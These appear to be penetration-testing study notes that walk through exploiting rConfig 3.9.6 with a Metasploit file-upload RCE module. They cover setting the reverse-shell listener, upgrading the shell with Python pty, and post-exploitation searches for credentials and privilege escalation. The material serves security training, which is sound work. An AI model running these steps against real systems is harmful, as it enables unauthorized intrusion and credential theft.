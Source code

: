 ### 2. Vulnerability Research:
- **Focus on rConfig 3.9.6** (found during web application discovery).
- **Approach**: Research CVEs or exploits using keywords: “rConfig 3.9.6 vulnerability.”
- **Common Findings**: Multiple RCE vulnerabilities exist for rConfig, including file upload vulnerabilities.

### 3. Metasploit Exploit Search:
- **Command**: `msf6 > search rconfig`
- **Results**: Found multiple rConfig-related modules.
  - `exploit/linux/http/rconfig_vendors_auth_file_upload_rce`: An exploit allowing RCE via a vulnerable file upload mechanism in rConfig.

### 4. Loading and Running the Exploit:
- **Command**: `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`
- **Setup**:
  - Set target IP, reverse shell listener IP, and port.
  - Check if the target is vulnerable (`rConfig 3.9.6` is vulnerable).
- **Execute**:
```
  msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit
```
 
Uploads a malicious PHP payload to the rConfig web interface.
Executes the payload to establish a reverse shell to the attacker.
### 5. Gaining a Meterpreter Shell:
Successful exploitation opens a Meterpreter shell:

Commands:
shell: Drops into a system-level shell.
dir or ls: Explore the filesystem of the target.

### 6. Handling Non-TTY Shells:   
 After gaining a shell, you may find it’s a non-tty shell, limiting functionality (e.g., can’t use sudo or su).

 Solution: Spawn a full TTY shell using Python (if installed):
 ```
python -c 'import pty; pty.spawn("/bin/sh")'
```
### 7. Post-Exploitation:
Objective: Privilege escalation or lateral movement to other systems.

**whoami**: To verify which user the shell session is running as (e.g., apache).
Explore the system further, looking for sensitive files, credentials, or ways to escalate privileges.

## Spawning Interactive Shells

After gaining a shell, we used Python to spawn a full TTY shell for better command access. This scenario is common in practice and real-world engagements, especially with limited or jail shells. If Python isn't available, there are other ways to spawn an interactive shell. It's important to know that /bin/sh or /bin/bash can often be replaced with any shell binary present on the system, with most Linux systems having bourne shell (/bin/sh) or bourne again shell (/bin/bash).
### /bin/sh -i
This command will execute the shell interpreter specified in the path in interactive mode (-i).
